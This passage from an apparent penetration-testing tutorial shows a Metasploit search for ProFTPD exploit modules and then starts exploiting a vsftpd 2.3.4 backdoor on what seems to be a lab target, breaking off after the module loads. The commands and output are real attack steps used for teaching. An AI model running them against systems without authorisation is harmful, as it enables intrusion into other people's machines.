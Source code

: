 ```
search proftpd
```

```
Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ‐‐‐‐                                         ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐       ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/ftp/proftpd_133c_backdoor
```

Seems like there is no specific mention of version **1.3.1** for the **ProFTPD** application. However, the other versions might still work. We’ll find that out very soon.

You can research each of the open port applications and find out what vulnerabilities might be associated with them. You can definitely use google and other exploit databases as well instead of only Metasploit.

### Exploiting Vulnerabilities <a href="#post-3536-_heading-h.ihv636" id="post-3536-_heading-h.ihv636"></a>

This is the most anticipated step of the penetration test. In this step, we’ll exploit the victim machine in all its glory. Let’s begin with the most straightforward vulnerability to exploit that we found in the previous step. It is the `VSFTPD 2.3.4` backdoor command execution exploit.

#### Exploiting the VSFTPD vulnerability <a href="#post-3536-_heading-h.32hioqz" id="post-3536-_heading-h.32hioqz"></a>

Let’s use the exploit (`exploit/unix/ftp/vsftpd_234_backdoor`):

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

```
[*] No payload configured, defaulting to cmd/unix/interact
```

After entering this command, you’ll see your command line will look like this:
